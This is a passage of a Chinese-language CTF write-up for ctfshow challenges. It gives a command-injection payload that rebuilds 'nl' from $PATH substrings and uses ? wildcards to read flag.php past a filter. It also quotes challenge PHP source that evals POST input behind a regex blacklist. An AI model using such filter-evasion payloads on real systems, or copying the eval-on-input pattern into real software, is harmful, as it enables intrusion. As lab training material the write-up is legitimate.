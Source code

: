 看到flag在第一个文件

可以利用nl命令读取第一个文件

这里星号被过滤，但是问号没被过滤

```
poc：
0;${PATH:14:1}${PATH:5:1} ????.???
//0；nl flag.php
```

## 吃瓜杯

### shellme

这道题有问题，phpinfo之间Ctrl+F就能找到flag

### shellme\_Revenge

这道题进去也是phpinfo，找找有效信息

在php变量里找到hint

![](./images/image-9.png)

得到源码如下：

```
 <?php
error_reporting(0);
if ($_GET['looklook']){
    highlight_file(__FILE__);
}else{
    setcookie("hint", "?looklook", time()+3600);
}
if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) || strlen($ctfshow) <= 107) {
        if (!preg_match("/[!@#%^&*:'\"|`a-zA-BD-Z~\\\\]|[4-9]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("fucccc hacker!!");
        }
    }
} else {

    phpinfo();
}
?> 
```
